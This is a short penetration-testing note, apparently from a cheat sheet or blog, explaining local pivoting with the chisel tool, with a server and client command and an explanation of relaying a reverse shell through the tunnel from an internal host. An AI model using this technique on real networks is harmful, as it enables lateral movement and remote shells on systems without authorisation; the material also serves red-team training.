

Local pivot is a great way to gain access to other internal resources that cannot connect all the way back to the attacking host.
Victim# chisel server -p 8000
Service# chisel client <Victim>:8000 9001:127.0.0.1:8001
Typically, only a single service or resource is requested (ie forwarding RDP it would be 9001:10.10.10.10:3389), but by specifying 127.0.0.1:8001, anything that is sent to 8001 will be redirected through the tunnel. This allows an attacker to send a reverse shell to 8001 and receive it on Victim at 9001
